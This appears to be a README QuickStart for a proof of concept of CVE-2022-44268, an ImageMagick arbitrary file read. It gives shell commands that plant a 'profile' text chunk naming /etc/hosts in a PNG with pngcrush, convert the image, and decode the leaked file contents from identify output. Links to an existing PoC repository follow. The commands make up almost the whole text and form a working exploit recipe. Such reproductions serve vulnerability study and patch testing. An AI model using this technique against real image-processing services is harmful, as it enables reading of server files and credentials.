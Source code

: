 # QuickStart

```sh
(host)  $ git submodule update --init --recursive
(host)  $ docker build .
(host)  $ docker run -v $(pwd)/images:/images -it $(docker build -q .)
(docker)$ cd /images
(docker)$ pngcrush -text a "profile" "/etc/hosts" temp1.png
(docker)$ convert pngout.png a.png
(docker)$ identify -verbose a.png # => get HEX_VALUE
(host)  $ python3 -c 'print(bytes.fromhex("HEX_VALUE"))'
```

# References

* https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC
* https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html